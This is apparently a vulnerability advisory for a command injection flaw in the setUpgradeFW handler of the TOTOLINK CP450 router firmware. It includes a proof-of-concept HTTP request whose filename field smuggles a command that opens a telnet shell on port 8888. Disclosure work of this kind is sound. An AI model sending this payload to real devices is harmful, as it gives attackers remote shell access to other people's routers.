


## CP450 command injection

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

Totolink outdoor CPE CP450 V4.1.0cu.747_B20191224 were discovered to contain a command injection vulnerability in the `setUpgradeFW` function via the **FileName** parameter. Attacker can control `v8` by setting the parameter `FileName`.



Without any checking, `v8` will be passed to system function in line 145.



This vulnerability allows attackers to execute arbitrary commands via a crafted request.

#### PoC

```
POST /cgi-bin/cstecgi.cgi?action=upload&setting/setUpgradeFW HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data
Content-Length: 11321126
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/adm/upload_firmware.asp
Cookie: SESSION_ID=2:1801026000:2
Upgrade-Insecure-Requests: 1

Content-Disposition: form-data; name="filename"; filename="1;telnetd -l /bin/sh -p 8888;ls"
Content-Type: application/octet-stream
```

